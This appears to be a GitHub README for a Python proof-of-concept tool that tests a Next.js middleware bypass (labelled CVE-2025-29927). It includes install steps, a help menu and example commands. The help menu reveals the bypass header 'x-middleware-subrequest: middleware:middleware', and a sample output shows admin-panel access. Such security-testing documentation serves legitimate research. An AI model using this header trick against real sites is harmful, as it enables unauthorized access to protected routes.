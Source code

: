 # PoC for Next.js Middleware Bypass (CVE-2025-29927 - Fictional)
> **⚠️ Important Disclaimer**
>
> This tool is a Proof-of-Concept (PoC) for a **fictional vulnerability (CVE-2025-29927)**. It is intended for educational purposes, security research, and as a professional template for developing security tools. **The author is not responsible for any misuse or damage caused by this script. Use only in controlled and authorized environments.**

## About The Project

This script automates the process of sending a specially crafted HTTP request to a Next.js application to test if protected routes can be accessed by bypassing middleware security checks. It is built to be robust, easy to use, and highly informative.

### Features

  - ✨ **Colored & Verbose Output:** Clear, color-coded output for immediate identification of success or failure. A verbose mode (`-v`) provides detailed debugging information.
  - 📦 **Class-based & Clean Code:** Written using a clean, object-oriented structure for better readability and maintainability.
  - proxies: **Full Proxy Support:** Route your traffic through a proxy like Burp Suite or ZAP for inspection and debugging using the `--proxy` flag.
  - 🍪 **Session Management:** Uses a `requests.Session` object for efficient connection handling and automatic cookie management.
  - 🚦 **Intelligent Redirect Handling:** The script does not follow redirects by default, allowing it to correctly identify when a bypass fails and results in a redirection.
  - 🛠️ **Customizable:** Allows for custom User-Agents and custom header values to adapt to different testing scenarios.

## Getting Started

Follow these instructions to get a copy of the project up and running on your local machine for testing and research purposes.

### Prerequisites

  - Python 3.7 or higher
  - `pip` (Python package installer)

### Installation

1.  **Clone the repository:**
    ```sh
    git clone https://github.com/your-username/your-repository-name.git
    ```
2.  **Navigate to the project directory:**
    ```sh
    cd your-repository-name
    ```
3.  **Install the required packages:**
    The only dependency is the `requests` library.
    ```sh
    pip install requests
    ```

## Usage

The script is straightforward to run from the command line.

### Help Menu

To see all available options, use the `-h` or `--help` flag.

```sh
python poc.py -h
```

```
usage: poc.py [-h] [-p PATH] [-s {http,https}] [--header HEADER] [-ua USER_AGENT] [--proxy PROXY] [-v] host

A professional PoC template to test for Next.js middleware bypass.

positional arguments:
  host                  Target host and port (e.g., localhost:3000)

optional arguments:
  -h, --help            show this help message and exit
  -p PATH, --path PATH  Protected route path to access (default: /admin)
  -s {http,https}, --scheme {http,https}
                        Protocol to use (http or https) (default: http)
  --header HEADER       Value for the x-middleware-subrequest header (default: middleware:middleware)
  -ua USER_AGENT, --user-agent USER_AGENT
                        Custom User-Agent for the request (default: Mozilla/5.0)
  --proxy PROXY         Proxy to use for requests (e.g., http://127.0.0.1:8080)
  -v, --verbose         Enable verbose debug output
```

### Examples

1.  **Basic Test:**
    Run a simple test against a local server on port 3000, trying to access the default `/admin` path.

    ```sh
    python poc.py localhost:3000
    ```

2.  **Testing a Specific Path over HTTPS:**
    Test a production-like environment using `https` and targeting a `/dashboard` route.

    ```sh
    python poc.py www.example.com -s https -p /dashboard
    ```

3.  **Advanced Test with Proxy and Verbose Output:**
    This is useful for debugging. Route traffic through Burp Suite running on `http://127.0.0.1:8080` and print all debug information.

    ```sh
    python poc.py internal-app:8080 -v --proxy http://127.0.0.1:8080
    ```

### Example of a Successful Run

If the bypass is successful, the output will look like this:

```
[... Banner ...]

[*] Target URL: http://localhost:3000/admin
[+] SUCCESS: Middleware bypassed! Access granted.

--- Response Snippet ---
<!DOCTYPE html><html><head><meta charSet="utf-8"/><meta name="viewport" 
content="width=device-width"/><title>Admin Panel</title>...
------------------------
```
